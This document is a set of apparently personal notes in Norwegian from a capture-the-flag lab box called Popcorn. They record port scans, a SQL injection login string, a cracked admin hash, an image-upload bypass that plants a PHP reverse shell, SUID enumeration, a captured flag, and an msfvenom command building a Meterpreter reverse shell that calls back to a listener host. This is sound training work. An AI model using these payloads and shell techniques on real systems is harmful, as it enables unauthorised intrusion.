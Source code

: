 # popcorn 10.10.10.6

linux

22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 **ingen exploits**

80/tcp open  http    Apache httpd 2.2.12 \(\(Ubuntu\)\) **ingen exploits**

dirb test og **torrent**

[http://10.10.10.6/torrent/login.php](http://10.10.10.6/torrent/login.php)

laste opp en torrent. prøve å finne et sted å laste opp bilde, obfuscate kode i bildet - funker ikke

`admin' or '1'='1`

`admin' or '1'='1`

adminpanel ingenting

må nok få tilgang til databse på en eller annen måte

torrent/database/ fant sql fil. inneholder hashet passord 1844156d4166d94387f1a4ad031ca5fa som blir admin12

kjører authenticated dirb

**laste opp via burp som php.jpg, endre på navn og paste inn reverse shell.**

Ubuntu 9.10 \n \l

Linux version 2.6.31-14-generic-pae

user.txt **5e36a919398ecc5d5c110f2d865cf136**

cat /root/root.txt

find / -perm -1000 -type d 2&gt;/dev/null **ingenting**

find / -perm -u=s -type f 2&gt;/dev/null **ingenting**

kanskje kernel exploit

bruke exploit suggester og teste



```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f elf > shell.elf
```

lage shell og laste opp så jeg får meterpreter. bra triks

så kjøre exploit suggester og se hva jeg får

